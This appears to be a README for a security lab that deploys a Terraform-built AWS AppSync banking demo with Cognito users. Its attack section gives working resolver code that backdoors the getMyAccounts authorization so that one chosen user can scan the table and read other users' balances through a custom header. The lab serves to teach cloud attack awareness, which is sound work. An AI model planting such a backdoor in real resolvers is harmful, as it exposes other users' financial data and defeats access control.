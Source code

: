# AppSync - Resolver Manipulation

## Overview

This setup deploys an AWS AppSync service, utilizing AWS IAM as the default authentication mode and featuring an additional endpoint authenticated via AWS Cognito. The scenario, inspired by an AWS tutorial [DynamoDB Transaction resolvers](https://docs.aws.amazon.com/appsync/latest/devguide/tutorial-dynamodb-transact-js.html), simulates specific banking functionalities.

Also, it includes a few HTML's to simulate a website that allows users to authenticate via cognito and view their balances.

## Prerequisites

- AWS CLI configured with necessary permissions.
- Terraform installed.

## Deploying the Infrastructure

**INFO**: If AppSync-Scenario2 was executed go directly to step number 6.

1. **Initialize Terraform**:
    ```bash
    terraform init
    ```

2. **Review Changes**:
    ```bash
    terraform plan
    ```

3. **Deploy Resources**:
    ```bash
    terraform apply
    ```
4. **Create Cognito users**: Access the AWS console, go to AWS Cognito and create a few users.


5. **Populate data in DynamoDB**:

Acces the AWS console, go to AWS AppSync and using the query option, execute the following mutation. Making sure to use the sub from Cognito as account name:

```
mutation populateAccounts {
  populateAccounts (
    savingAccounts: [
      {accountNumber: "SUB_FROM_COGNITO", username: "Tom", balance: 100},
      {accountNumber: "SUB_FROM_COGNITO", username: "Amy", balance: 90},
      {accountNumber: "SUB_FROM_COGNITO", username: "Lily", balance: 80},
    ]
    checkingAccounts: [
      {accountNumber: "SUB_FROM_COGNITO", username: "Tom", balance: 70},
      {accountNumber: "SUB_FROM_COGNITO", username: "Amy", balance: 60},
      {accountNumber: "SUB_FROM_COGNITO", username: "Lily", balance: 50},
    ]) {
    savingAccounts {
      accountNumber
    }
    checkingAccounts {
      accountNumber
    }
  }
}
```

6. **[Optional] Configure the web**: 
 - Update the COGNITO_APP_CLIENT_ID, APPSYNC_DOMAIN, and APPSYNC_ID in the callback.html and index.html files located in the www folder with your Amazon Cognito configuration data.
 - Navigate to the www folder and utilize Python's HTTP server to serve the web application: use python -m http.server [port] (Python 3.x) or python -m SimpleHTTPServer [port] (Python 2.x), replacing [port] with the desired port number or omitting it for default port 8000.
 - Access the web application via your browser at http://localhost:[port], substituting [port] with the utilized port number.

## Attacking the Infrastructure

Modify the getMyAccounts resolver with the following code:

```
export function request(ctx) {
    console.log(ctx)
    if (ctx.identity.sub == "SUB_FROM_COGNITO") {
      return { operation: 'Scan' };
    }
    else {
     return {
        version: '2018-05-29',
        operation: 'TransactGetItems',
        transactItems: [
            { table: 'savingAccounts', key: util.dynamodb.toMapValues({ accountNumber: ctx.identity.sub }) },
            { table: 'checkingAccounts', key: util.dynamodb.toMapValues({ accountNumber: ctx.identity.sub }) }
        ],
    };   
    }
}

export function response(ctx) {
    if (ctx.error) {
        util.error(ctx.error.message, ctx.error.type, null, ctx.result.cancellationReasons);
    }
    if (ctx.identity.sub == "SUB_FROM_COGNITO") {
      const items = ctx.result.items;
      let index = +ctx.request.headers.account;
      const savingAccounts = [items[index]];
      return { savingAccounts }; 
    }
    else {
      const items = ctx.result.items;
      const savingAccounts = [items[0]];
      const checkingAccounts = [items[1]];
      return { savingAccounts, checkingAccounts }; 
    }
}
```

Make sure to modify the SUB_FROM_COGNITO with a valid SUB from Cognito from a user you have created.

## Understanding the Attack

The attacker manipulates the resolver code within AWS AppSync, where the authorization logic is implemented, to enable special functionality when a user, controlled by the attacker, queries the API. Specifically, the manipulated resolver allows the attacker’s user to retrieve data from other users. By employing a customized header in the API request, the attacker can control and specify which user data to retrieve

## Cleanup

To avoid incurring additional charges, ensure you destroy the Terraform-managed resources once done:

```bash
terraform destroy
```

⚠️ **Warning** ⚠️

> The content and techniques described here are meant for educational and awareness purposes only. Always be cautious when testing and use only in safe, controlled environments. Unauthorized use or misuse can lead to legal consequences and potential harm.
